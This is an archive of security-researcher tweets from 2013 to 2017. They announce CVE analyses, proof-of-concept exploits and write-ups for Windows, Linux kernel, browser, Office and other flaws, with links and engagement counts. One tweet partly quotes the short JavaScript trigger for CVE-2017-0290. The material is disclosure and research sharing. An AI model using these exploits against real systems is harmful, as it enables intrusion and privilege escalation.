Great Job. The POC for RCE Flaw (CVE-2017-0290) in #Microsoft Malware Protection Engine fits in a Tweet (Story: https://t.co/FWw7wtpi6X) https://t.co/D7HdA66tJT
</blockquote>

* https://goo.gl/I8eStO
* https://twitter.com/natashenka/status/861748397409058816

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/861822959731838976 _at Tue May 09 05:59:40 +0000 2017_**
<blockquote>
CVE-2017-0290: RCE as SYSTEM in Microsoft Malware Protection Engine https://t.co/pn9y8z64uF #windows #vulnerability
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=1252&desc=5

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---
# natashenka
**https://twitter.com/natashenka/status/861748397409058816 _at Tue May 09 01:03:23 +0000 2017_**
<blockquote>
CVE-2017-0290 is tweetable :)

var e = new Error();
https://t.co/0RDygaVW6B({message : 7 });

https://t.co/xkH9SQpNJE
</blockquote>

* http://e.toString.call
* https://bugs.chromium.org/p/project-zero/issues/detail?id=1252&desc=5

<table><tr>
<td>Quotes: <code>70</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>907</code></td>
<td>Favorites: <code>1072</code></td>
</tr></table>

---
# MalwareJake
**https://twitter.com/MalwareJake/status/859382630923382784 _at Tue May 02 12:22:40 +0000 2017_**
<blockquote>
Complete walkthrough of exploiting CVE-2017-2636 and a novel SMEP bypass technique. Well documented! https://t.co/PxLv5Y5Wc7
</blockquote>

* https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---
# maldevel
**https://twitter.com/maldevel/status/852102880685326337 _at Wed Apr 12 10:15:32 +0000 2017_**
<blockquote>
CVE-2017-3881 Cisco Catalyst RCE Proof-Of-Concept - 
https://t.co/a7XjzOINpl https://t.co/G3GxMWwePQ
</blockquote>

* https://artkond.com/2017/04/10/cisco-catalyst-remote-code-execution/
* https://github.com/artkond/cisco-rce/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/851866599472717824 _at Tue Apr 11 18:36:38 +0000 2017_**
<blockquote>
[PDF] CVE-2017-0199 (Office RTF RCE) sample analysis, IOCs and mitigation advice  https://t.co/Okf7WHtaop
</blockquote>

* https://github.com/nccgroup/Cyber-Defence/blob/master/Technical%20Notes/Office%20zero-day%20(April%202017)/2017-04%20Office%20OLE2Link%20zero-day%20v0.4.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/846377562397904899 _at Mon Mar 27 15:05:10 +0000 2017_**
<blockquote>
In-depth analysis of zero-day exploit for CVE-2017-0005 reveals #Windows10 resilience https://t.co/vwyJgjGZ6d
</blockquote>

* http://ow.ly/w6qj30ahLeP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/814758000774803456 _at Fri Dec 30 09:00:19 +0000 2016_**
<blockquote>
Source code level analysis and exploitation of recent Firefox/tor zero-day (CVE-2016-9079):
https://t.co/UH7d5zThLE
</blockquote>

* https://community.rapid7.com/community/metasploit/blog/2016/12/29/a-friendly-fireside-foray-into-a-firefox-fracas

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# dawid_golunski
**https://twitter.com/dawid_golunski/status/793562801738485760 _at Tue Nov 01 21:18:10 +0000 2016_**
<blockquote>
DBMS #MariaDB #MySQL #Percona #0day pwned again! :)  CVE-2016-6663 / OCVE-2016-5616 #exploit gets you a mysql shell  https://t.co/yxPGnYwTHQ https://t.co/v63O2hyH5s
</blockquote>

* http://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# _odisseus
**https://twitter.com/_odisseus/status/787979764443348992 _at Mon Oct 17 11:33:10 +0000 2016_**
<blockquote>
Exploiting #Linux kernel heap using a real #UAF method against CVE-2016-6187 vulnerability. cc: @binitamshah https://t.co/yvmII8B6sz https://t.co/TvXm5IHw2s
</blockquote>

* https://cyseclabs.com/blog/cve-2016-6187-heap-off-by-one-exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---
# K3vinLuSec
**https://twitter.com/K3vinLuSec/status/766879002069913600 _at Sat Aug 20 06:06:16 +0000 2016_**
<blockquote>
My new blog "Deep Analysis of CVE-2016-3820 - Remote Code Execution Vulnerability in Android Mediaserver" 
https://t.co/fxZTLQSOTR
</blockquote>

* https://blog.fortinet.com/2016/08/17/deep-analysis-of-cve-2016-3820-remote-code-execution-vulnerability-in-android-mediaserver

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# PhysicalDrive0
**https://twitter.com/PhysicalDrive0/status/766539347441033221 _at Fri Aug 19 07:36:36 +0000 2016_**
<blockquote>
Root Cause Analysis of Windows Kernel UAF Vulnerability lead to CVE-2016-3310 https://t.co/wepgdOhhRz
</blockquote>

* http://blog.fortinet.com/2016/08/17/root-cause-analysis-of-windows-kernel-uaf-vulnerability-lead-to-cve-2016-3310

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/766495024821526528 _at Fri Aug 19 04:40:29 +0000 2016_**
<blockquote>
Root Cause Analysis of Windows Kernel UAF Vulnerability lead to CVE-2016-3310 https://t.co/z97lelCJWW
</blockquote>

* http://blog.fortinet.com/2016/08/17/root-cause-analysis-of-windows-kernel-uaf-vulnerability-lead-to-cve-2016-3310

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---
# returnsme
**https://twitter.com/returnsme/status/763686874569281536 _at Thu Aug 11 10:41:54 +0000 2016_**
<blockquote>
Disclosure of CVE-2016-3842,Use-after-free vulnerability in Qualcomm MSM GPU driver https://t.co/uVcyS1BLxk
</blockquote>

* http://retme.net/index.php/2016/08/11/cve-2016-3842.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>70</code></td>
</tr></table>

---
# fdfalcon
**https://twitter.com/fdfalcon/status/742798495569051648 _at Tue Jun 14 19:18:56 +0000 2016_**
<blockquote>
Just posted "Exploiting IE’s MS15-106, Part 2: JScript ArrayBuffer.slice Mem Disclosure(CVE-2015-6053)" + CFG bypass https://t.co/AIokgXmlAZ
</blockquote>

* https://blog.coresecurity.com/2016/06/14/exploiting-internet-explorers-ms15-106-part-ii-jscript-arraybuffer-slice-memory-disclosure-cve-2015-6053/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>130</code></td>
</tr></table>

---
# PhysicalDrive0
**https://twitter.com/PhysicalDrive0/status/740084989195341824 _at Tue Jun 07 07:36:26 +0000 2016_**
<blockquote>
Analysis of Use-After-Free Vulnerability (CVE-2016-4119) in Adobe Acrobat and Reader 
https://t.co/9qoSZpRH9w
</blockquote>

* https://blog.fortinet.com/2016/06/06/analysis-of-use-after-free-vulnerability-cve-2016-4119-in-adobe-acrobat-and-reader

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/736360613140520961 _at Sat May 28 00:57:05 +0000 2016_**
<blockquote>
Exploiting GLIBC - Hacking Everything (Leveraging CVE-2015-7547 for ASLR
Bypass &amp; RCE) : https://t.co/MYZhO5Cbw8 (Slides) #HITB2016AMS
</blockquote>

* http://conference.hitb.org/hitbsecconf2016ams/materials/D1%20COMMSEC%20-%20Nadav%20Markus%20and%20Gal%20De%20Leon%20-%20Exploiting%20GLIBC%20-%20Hacking%20Everything.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# 0x009AD6_810
**https://twitter.com/0x009AD6_810/status/730166126605262848 _at Tue May 10 22:42:25 +0000 2016_**
<blockquote>
0day Attack in the wild.
CVE-2016-0167 Windows LPE
CVE-2016-0189 IE RCE
CVE-2016-4117 Flash RCE
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/725166422217859074 _at Wed Apr 27 03:35:22 +0000 2016_**
<blockquote>
EopMon, an elevation of privilege detector based on HyperPlatform vs Necurs (CVE-2015-0057) and Gozi (CVE-2015-2387) https://t.co/x7mNEEAryh
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# wpawlikowski
**https://twitter.com/wpawlikowski/status/720539071060295681 _at Thu Apr 14 09:07:56 +0000 2016_**
<blockquote>
Nice writeup of CVE-2015-6086 (Microsoft Internet Explorer 9/10/11) ASLR bypass: https://t.co/2eSWmMywhr #vulndev #exploit #security
</blockquote>

* https://github.com/payatu/CVE-2015-6086/blob/master/OOB_Read_IE10_IE11_ASLR_Bypass.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# gN3mes1s
**https://twitter.com/gN3mes1s/status/701658969278967808 _at Mon Feb 22 06:45:09 +0000 2016_**
<blockquote>
CVE-2016-2384 arbitrary code execution due to a double-free in the usb-midi linux kernel driver - https://t.co/QfhW4oOecp bonus: SMEP bypass
</blockquote>

* https://xairy.github.io/blog/2016/cve-2016-2384

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/699473968357601280 _at Tue Feb 16 06:02:44 +0000 2016_**
<blockquote>
POC BSoD and Privilege Escalation (to SYSTEM) using CVE-2016-0051 in Windows 7/10 https://t.co/Cy1L1Lh43k
</blockquote>

* https://github.com/koczkatamas/CVE-2016-0051

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/699420678613704704 _at Tue Feb 16 02:30:59 +0000 2016_**
<blockquote>
POC BSoD and Privilege Escalation (to SYSTEM) using CVE-2016-0051 in Windows 7/10 : https://t.co/A54mnUvSYc
</blockquote>

* https://github.com/koczkatamas/CVE-2016-0051

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# nVisium
**https://twitter.com/nVisium/status/692007308621135872 _at Tue Jan 26 15:32:53 +0000 2016_**
<blockquote>
PoC Exploit (and Analysis) of yesterday’s CVE-2016-0752 - Rails Remote Code Execution by @forced_request: https://t.co/s62EEbr8NB
</blockquote>

* https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---
# zebasquared
**https://twitter.com/zebasquared/status/689862330704879619 _at Wed Jan 20 17:29:31 +0000 2016_**
<blockquote>
This ASLR bypass exploit is for CVE-2015-6068 awesome learning/teaching material! https://t.co/W0eRnqlwdo
</blockquote>

* https://github.com/payatu/CVE-2015-6086/blob/master/OOB_Read_IE10_IE11_ASLR_Bypass.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---
# EternalToDo
**https://twitter.com/EternalToDo/status/689731003364032512 _at Wed Jan 20 08:47:40 +0000 2016_**
<blockquote>
Analyzing/exploiting a new Linux kernel vulnerability (CVE-2016-0728): memory leak + UaF https://t.co/tkvmGrtVId PoC https://t.co/5pTJvVSzXq
</blockquote>

* http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
* https://gist.github.com/PerceptionPointTeam/18b1e86d1c0f8531ff8f

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# eromang
**https://twitter.com/eromang/status/689493620576100352 _at Tue Jan 19 17:04:23 +0000 2016_**
<blockquote>
Analysis and PoC for #Linux #Kernel privilege escalation vulnerability CVE-2016-0728 https://t.co/fJBFN3p25A https://t.co/Osp4s03I4O
</blockquote>

* http://bit.ly/1QbIqCx

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# HackSysTeam
**https://twitter.com/HackSysTeam/status/689091608680239104 _at Mon Jan 18 14:26:56 +0000 2016_**
<blockquote>
From Crash to Exploit: CVE-2015-6086 - Out of Bound Read/ASLR Bypass write-up and exploit.
https://t.co/oBDocGyI7F
https://t.co/dkqNYwOfp8
</blockquote>

* http://www.payatu.com/from-crash-to-exploit/
* https://github.com/payatu/CVE-2015-6086

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---
# eromang
**https://twitter.com/eromang/status/688670070214643712 _at Sun Jan 17 10:31:54 +0000 2016_**
<blockquote>
#Microsoft #Excel RCE MS16-004 CVE-2016-0035 analysis https://t.co/FcXwXrOTbY https://t.co/OEZEuu7fgw
</blockquote>

* http://bit.ly/1ZEwOQs

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---
# jifa
**https://twitter.com/jifa/status/662263195348951040 _at Thu Nov 05 13:40:24 +0000 2015_**
<blockquote>
Disclosure timeline of @vBulletin pre-auth RCE (CVE-2015-7808 by Netanel Rubin). I kid you not. https://t.co/JQQO48a0fH
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>27</code></td>
</tr></table>

---
# opexxx
**https://twitter.com/opexxx/status/632918960300818432 _at Sun Aug 16 14:16:53 +0000 2015_**
<blockquote>
very nice! Tested MS15-076 (CVE-2015-2370) Privilege Escalation on x64 Windows 8.1, poc : http://t.co/B7Qa5RMoGs http://t.co/uFXiBr9q0T…
</blockquote>

* http://bit.ly/1KpqmiQ

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# ropchain
**https://twitter.com/ropchain/status/625680759714639872 _at Mon Jul 27 14:54:52 +0000 2015_**
<blockquote>
Analysis of VUPEN's CVE-2012-1856 TabStrip UAF being exploited ITW --&gt; http://t.co/gXX1suPe5D  cc @PhysicalDrive0 http://t.co/P20CYt7dwN
</blockquote>

* http://blog.ropchain.com/2015/07/27/analyzing-vupens-cve-2012-1856/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>23</code></td>
</tr></table>

---
# mrkoot
**https://twitter.com/mrkoot/status/588353164975460352 _at Wed Apr 15 14:48:20 +0000 2015_**
<blockquote>
PoC Exploit for  MS15-034 / CVE-2015-1635 Remote Code Execution Via HTTP Request In IIS On Windows 7+ (Apr 15) https://t.co/XUnqBRK20P
</blockquote>

* https://ma.ttias.be/remote-code-execution-via-http-request-in-iis-on-windows/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>22</code></td>
</tr></table>

---
# fdfalcon
**https://twitter.com/fdfalcon/status/580830967050473473 _at Wed Mar 25 20:37:48 +0000 2015_**
<blockquote>
Exploiting CVE-2015-0311, a UAF in Flash Player, Part 2: Bypassing Control Flow Guard on Windows 8.1 https://t.co/YitTDDONl6
</blockquote>

* https://blog.coresecurity.com/2015/03/25/exploiting-cve-2015-0311-part-ii-bypassing-control-flow-guard-on-windows-8-1-update-3/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# fdfalcon
**https://twitter.com/fdfalcon/status/573167907087245313 _at Wed Mar 04 17:07:32 +0000 2015_**
<blockquote>
My walkthrough on CVE-2015-0311: A Use-After-Free in Adobe Flash Player, from root cause analysis to exploitation http://t.co/aBfRG335Y0
</blockquote>

* http://blog.coresecurity.com/2015/03/04/exploiting-cve-2015-0311-a-use-after-free-in-adobe-flash-player/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---
# teamcymru
**https://twitter.com/teamcymru/status/530361522753896448 _at Thu Nov 06 14:10:15 +0000 2014_**
<blockquote>
Root Cause Analysis of CVE-2014-1772 - An Internet Explorer Use After Free Vulnerability  http://t.co/6GUwr0HNef http://t.co/AjCuxgUa0B
</blockquote>

* http://bit.ly/1x6fIw0

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>21</code></td>
</tr></table>

---
# HaifeiLi
**https://twitter.com/HaifeiLi/status/451972219288055808 _at Fri Apr 04 06:39:08 +0000 2014_**
<blockquote>
The exploitation of the RTF zero-day is actually very interesting http://t.co/S6IVPFjqCC. #CVE-2014-1761 #0day #rtf
</blockquote>

* http://blogs.mcafee.com/mcafee-labs/close-look-rtf-zero-day-attack-cve-2014-1761-shows-sophistication-attackers

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---
# jaimeblascob
**https://twitter.com/jaimeblascob/status/436981584172814336 _at Fri Feb 21 21:51:43 +0000 2014_**
<blockquote>
New blog post: Analysis of an attack exploiting the Adobe Zero-day - CVE-2014-0502 http://t.co/YeQERJyrGw
#Flash #0day #PlugX #Malware
</blockquote>

* http://www.alienvault.com/open-threat-exchange/blog/analysis-of-an-attack-exploiting-the-adobe-zero-day-cve-2014-0502/#sthash.49WB2ral.dpuf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# _sinn3r
**https://twitter.com/_sinn3r/status/384769988281634816 _at Mon Sep 30 20:01:28 +0000 2013_**
<blockquote>
#Metasploit releases CVE-2013-3893 #exploit (unpatched #IE SetMouseCapture uaf): http://t.co/k5XMHX1MzO
</blockquote>

* http://goo.gl/HxtE4D

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>16</code></td>
</tr></table>

---
# FireEye
**https://twitter.com/FireEye/status/381661057770483712 _at Sun Sep 22 06:07:41 +0000 2013_**
<blockquote>
New post: Operation DeputyDog Part 2: Zero-Day Exploit Analysis (CVE-2013-3893) http://t.co/L7NjBoI8IA
</blockquote>

* http://www.fireeye.com/blog/technical/cyber-exploits/2013/09/operation-deputydog-part-2-zero-day-exploit-analysis-cve-2013-3893.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>16</code></td>
</tr></table>

---
